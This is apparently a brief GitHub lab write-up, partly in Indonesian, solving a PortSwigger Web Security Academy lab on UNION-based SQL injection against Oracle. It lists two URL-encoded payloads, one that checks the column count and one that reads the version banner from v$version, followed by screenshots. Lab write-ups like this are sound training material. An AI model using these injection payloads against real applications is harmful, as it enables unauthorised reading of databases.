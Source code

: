 # - Lab: SQL injection attack, querying the database type and version on Oracle
This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. 

# - Link
https://portswigger.net/web-security/sql-injection/lab-querying-database-version-oracle

# - Cara

## Step
1. Cek adanya dua kolom dengan ```sql '+UNION+SELECT+'abc','def'+FROM+dual--```
2. Dan masukkan payload ini untuk cek versi ```sql '+UNION+SELECT+BANNER,+NULL+FROM+v$version--```

## Gambar
<img width="2304" height="1276" alt="VirtualBox_kali-linux-2024 4-virtualbox-amd64_17_09_2025_11_40_30" src="https://github.com/user-attachments/assets/76f4bd7c-b54c-4576-ae3d-11493214a267" />
<img width="2304" height="1276" alt="VirtualBox_kali-linux-2024 4-virtualbox-amd64_17_09_2025_11_41_22" src="https://github.com/user-attachments/assets/57fb9aa2-eaed-46a4-9b9f-52b53afd1a26" />
<img width="2304" height="1276" alt="VirtualBox_kali-linux-2024 4-virtualbox-amd64_17_09_2025_11_42_02" src="https://github.com/user-attachments/assets/e64299db-53fe-443d-a905-e92cdba7f952" />

## Berhasil


